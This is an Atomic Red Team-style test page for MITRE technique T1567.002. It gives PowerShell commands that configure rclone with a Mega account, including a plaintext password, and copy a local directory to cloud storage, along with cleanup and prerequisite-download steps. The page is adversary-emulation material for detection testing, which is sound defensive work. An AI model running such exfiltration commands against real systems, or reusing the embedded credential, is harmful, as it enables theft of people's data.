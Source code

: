 ```yaml
---
tags: [T1567_002, atomic_test]
filename: "[[T1567.002 - Exfiltration Over Web Service- Exfiltration to Cloud Storage]]"
---
```

# T1567.002 - Exfiltration Over Web Service: Exfiltration to Cloud Storage

## Atomic Test #1 - Exfiltrate data with rclone to cloud Storage - Mega (Windows)
This test uses rclone to exfiltrate data to a remote cloud storage instance. (Mega)
See https://thedfirreport.com/2022/06/16/sans-ransomware-summit-2022-can-you-detect-this/

**Supported Platforms:** Windows


**auto_generated_guid:** 8529ee44-279a-4a19-80bf-b846a40dda58





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| rclone_path | Directory of rclone.exe | path | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;T1567.002&#92;rclone-v*&#92;|
| rclone_config_path | Path to rclone's config file (default should be fine) | path | $env:appdata|
| dir_to_copy | Directory to copy | string | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;T1567.002|
| mega_user_account | Mega user account | string | atomictesting@outlook.com|
| mega_user_password | Mega user password | string | vmcjt1A_LEMKEXXy0CKFoiFCEztpFLcZVNinHA|
| remote_share | Remote Mega share | string | T1567002|


#### Attack Commands: Run with `powershell`! 


```powershell
New-Item #{rclone_config_path}\rclone -ItemType directory
New-Item #{rclone_config_path}\rclone\rclone.conf
cd "#{rclone_path}"
.\rclone.exe config create #{remote_share} mega
set-Content #{rclone_config_path}\rclone\rclone.conf "[#{remote_share}] `n type = mega `n user = #{mega_user_account} `n pass = #{mega_user_password}"
.\rclone.exe copy --max-size 1700k "#{dir_to_copy}" #{remote_share}:test -v
```

#### Cleanup Commands:
```powershell
cd "#{rclone_path}"
.\rclone.exe purge #{remote_share}:test
.\rclone.exe config delete #{remote_share}:
Remove-Item #{rclone_config_path}\rclone -recurse -force -erroraction silentlycontinue
cd c:\
Remove-Item "PathToAtomicsFolder\..\ExternalPayloads\rclone.zip"
Remove-Item "PathToAtomicsFolder\..\ExternalPayloads\T1567.002" -recurse -force
```



#### Dependencies:  Run with `powershell`!
##### Description: rclone must exist at (#{rclone_path})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{rclone_path}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-WebRequest "https://downloads.rclone.org/rclone-current-windows-amd64.zip" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\rclone.zip"
Expand-archive -path "PathToAtomicsFolder\..\ExternalPayloads\rclone.zip" -destinationpath "PathToAtomicsFolder\..\ExternalPayloads\T1567.002\" -force
```




<br/>
